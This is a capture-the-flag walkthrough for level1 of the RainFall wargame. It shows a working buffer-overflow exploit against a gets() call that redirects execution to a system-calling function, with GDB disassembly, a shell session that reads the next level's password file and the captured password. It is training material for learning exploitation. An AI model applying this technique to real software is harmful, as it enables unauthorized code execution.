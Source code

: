 # Walkthrough

## Solution
```
$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
```

## Explanation

GDB:
info functions -> list all functions available

EIP: Instruction pointer, points to the next function to be executed

https://wiremask.eu/tools/buffer-overflow-pattern-generator/

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp      // substract 80 from esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux

There is a run function.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

We need to overflow the buffer, to overwrite EIP with the run function address.
With wiremask, we know that we segfault at character 76.
We are going to write 76 characters followed by the address of run.


python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)

We need to use cat, so that the program wait for an input from stdin
-------------------------------

level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
ls
ls: cannot open directory .: Permission denied
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77








/*
Stack based buffer overflows are one of the most common vulnerabilities. Found today. It affects any
function that copies input to memory without doing bounds checking. For example:
Strcpy(),memcpy(),gets(),etc…..
What is a buffer overflow? A buffer overflow occurs when a function copies data into a buffer without
doing bounds checking. So if the source data size is larger than the destination buffer size this data will
overflow the buffer towards higher memory address and probably overwrite previous data on stack.


https://0xrick.github.io/binary-exploitation/bof3/

Transform the address to little endian because in general the stack goes from the top of the memory to the bottom,
thus the "data" you use is always written from low to high  
```
0A 0B 0C 0D
 |	|  |  |    Memory:
 | |  |   ---> 0D (a)
 | |   ------> 0C (a+1)
 |  ---------> 0B (a+2)
  -----------> 0A (a+3)
  Little endian
```

*/
